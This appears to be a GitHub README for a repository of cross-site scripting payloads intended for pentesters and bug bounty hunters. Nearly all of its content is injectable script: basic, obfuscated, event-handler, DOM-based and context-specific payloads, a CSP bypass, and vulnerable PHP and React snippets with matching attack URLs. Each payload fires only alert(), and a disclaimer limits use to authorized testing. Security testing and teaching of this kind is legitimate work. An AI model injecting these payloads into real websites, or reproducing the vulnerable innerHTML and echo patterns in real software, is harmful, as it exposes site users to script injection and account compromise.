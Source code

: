 # 🛡️ XSS Payloads Repository

This repository contains a curated list of **Cross-Site Scripting (XSS)** payloads for testing and learning web security. Ideal for bug bounty hunters, pentesters, and security enthusiasts.

⚠️ **Disclaimer**  
- Use these payloads **only** in environments where you have explicit permission.  
- Unauthorized testing is illegal and unethical.

---

## 📚 Table of Contents

1. [Basic Payloads](#basic-payloads)
2. [Obfuscated Payloads](#obfuscated-payloads)
3. [Event Handlers](#event-handlers)
4. [Advanced Techniques](#advanced-techniques)
5. [DOM-Based XSS](#dom-based-xss)
6. [Context-Specific Payloads](#context-specific-payloads)
7. [Bypass Techniques](#bypass-techniques)
8. [Real-World Example Payloads](#real-world-example-payloads)
9. [Contributing](#contributing)

---

## 🧪 Basic Payloads
```html
<script>alert('XSS')</script>
<img src=x onerror=alert(1)>
<svg/onload=alert(1)>
<iframe src="javascript:alert('XSS')"></iframe>

🧬 Obfuscated Payloads

<script>eval("al"+"ert(1)")</script>
<svg/onload=&#97;&#108;&#101;&#114;&#116;(1)>
<iframe src="javascript:alert`XSS`"></iframe>
<svg><script xlink:href=data:,alert(1)></script></svg>

🔘 Event Handlers

<body onload=alert(1)>
<input onfocus=alert(1) autofocus>
<div onclick="alert(1)">Click Me</div>
<a href="#" onmouseover=alert(1)>Hover Me</a>

🧠 Advanced Techniques

<details open ontoggle=alert(1)>
<math><mtext></mtext><script>alert(1)</script></math>
<form><button formaction="javascript:alert(1)">CLICK</button></form>
<object data="javascript:alert(1)"></object>
<isindex type=image src=1 onerror=alert(1)>

⚙️ DOM-Based XSS

Used when injection happens in JavaScript code via the DOM.

// If input is injected directly
var user = location.hash;
document.body.innerHTML = user; // vulnerable

Payload:

http://example.com/#<img src=x onerror=alert(1)>

🧩 Context-Specific Payloads
1. HTML Context

<script>alert(1)</script>

2. Attribute Context

<img src=x onerror=alert(1)>
<a href="#" onclick=alert(1)>Click</a>

3. JavaScript Context

';alert(1);//

4. URL Context

javascript:alert(1)
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

CSP Bypasses

<script src="data:text/javascript,alert(1)"></script>

🧨 Real-World Example Payloads
PHP $_GET Injection

echo $_GET["name"];

Payload:

http://vuln.site/?name=<script>alert(1)</script>

React (with improper dangerouslySetInnerHTML)

<div dangerouslySetInnerHTML={{__html: userInput}} />

Payload:

<img src=1 onerror=alert('ReactXSS')>











